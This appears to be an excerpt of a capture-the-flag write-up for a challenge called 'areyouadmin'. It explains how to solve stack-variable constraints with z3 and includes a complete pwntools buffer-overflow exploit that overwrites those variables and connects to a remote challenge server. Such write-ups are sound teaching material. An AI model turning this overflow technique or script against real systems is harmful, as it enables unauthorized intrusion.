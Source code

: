 These are the mathematical condtions where you have to guess the variables this is where <font color="aqua">z3</font> comes into the play. <font color="aqua">z3</font> or any sat solver takes certain condition and gives you the actual numbers like,
```
a + b = 5
a - b = 1

Then z3 will solve this for you and will give you the exact value for a and b
```

The variables are the location on stack set to 0 so all you have to do is overwrite these with correct value and you will get the flag. For this you can use either username or password field both are vulnerable to buffer overflow

```python
from pwn import *
from z3 import *

a,b,c,d,e = Int('a'),Int('b'),Int('c'),Int('d'),Int('e')

def val():
    s = Solver()
    s.add((a * b) + c == 0x253f)
    s.add((b * c) + d == 0x37a2)
    s.add((c * d) + e == 0x16d3)
    s.add((d * e) + a == 0x1bc9)
    s.add((e * a) + b == 0x703f)
    s.check()
    return s.model()


l = val()

flag = False
offset = 0x60 - 0x14
username = b"AlexTheUser\x00"
password = b"4l3x7h3p455w0rd"

payload = b""
payload += username
payload += b"A" * (offset - len(username))
payload += p32(l[e].as_long())
payload += p32(l[d].as_long())
payload += p32(l[c].as_long())
payload += p32(l[b].as_long())
payload += p32(l[a].as_long())

payload2 = b""
payload2 += password
 
if flag:
    p = process("./areyouadmin")
else:
    p = remote("194.5.207.113",7020)

p.recv()
p.sendline(payload)
p.recv()
p.sendline(payload2)
print(p.recvall())
```
<br>
